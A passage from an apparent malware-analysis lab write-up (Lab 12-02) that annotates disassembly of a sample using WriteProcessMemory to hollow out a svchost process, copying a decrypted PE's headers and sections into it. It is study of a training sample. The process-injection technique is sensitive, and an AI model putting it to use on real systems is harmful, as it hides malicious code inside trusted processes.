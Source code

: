 ```assembly
0040123C push    0               ; lpNumberOfBytesWritten
0040123E mov     ecx, [ebp+Var_PEHeader]
00401241 mov     edx, [ecx+IMAGE_NT_HEADERS.OptionalHeader.SizeOfHeaders]
00401244 push    edx             ; nSize
00401245 mov     eax, [ebp+lpDecryptedResource]
00401248 push    eax             ; lpBuffer
00401249 mov     ecx, [ebp+lpBaseAddress]
0040124C push    ecx             ; lpBaseAddress
0040124D mov     edx, [ebp+hProcess.hProcess]
00401250 push    edx             ; hProcess
00401251 call    ds:WriteProcessMemory
```

The call to `WriteProcessMemory` writes a number of `SizeOfHeaders` bytes from the `lpDecryptedResource` executable into the just-allocated memory region pointed to by `lpBaseAddress`.

I can verify looking in Process Hacker:

![WriteProcessMemory loop](/media/pma/lab-12-02/memory-svchost-written.png)

Next, the program cycles thru each PE section, writing the raw bytes of each section.

![WriteProcessMemory loop](/media/pma/lab-12-02/writeprocessmemory-loop.png)

This is the loop body:

```assembly
00401277 mov     eax, [ebp+Var_lpDecryptedResource]
0040127A mov     ecx, [ebp+lpDecryptedResource]
0040127D add     ecx, [eax+IMAGE_DOS_HEADER.e_lfanew]
00401280 mov     edx, [ebp+Var_LoopCounter]
00401283 imul    edx, 28h
00401286 lea     eax, [ecx+edx+0F8h] ; 0xF8 is the PE Header offset which
00401286                         ;     the first section starts at
0040128D mov     [ebp+Var_Section], eax
00401290 push    0               ; lpNumberOfBytesWritten
00401292 mov     ecx, [ebp+Var_Section]
00401295 mov     edx, [ecx+IMAGE_SECTION_HEADER.SizeOfRawData]
00401298 push    edx             ; nSize
00401299 mov     eax, [ebp+Var_Section]
0040129C mov     ecx, [ebp+lpDecryptedResource]
0040129F add     ecx, [eax+IMAGE_SECTION_HEADER.PointerToRawData]
004012A2 push    ecx             ; lpBuffer
004012A3 mov     edx, [ebp+Var_Section]
004012A6 mov     eax, [ebp+lpBaseAddress]
004012A9 add     eax, [edx+IMAGE_SECTION_HEADER.VirtualAddress]
004012AC push    eax             ; lpBaseAddress
004012AD mov     ecx, [ebp+hProcess.hProcess]
004012B0 push    ecx             ; hProcess
004012B1 call    ds:WriteProcessMemory
```

For each PE section, the `WriteProcessMemory` function writes the section's raw bytes into the newly allocated memory region, starting at the address specified by the `IMAGE_SECTION_HEADER.VirtualAddress` field of the section header.
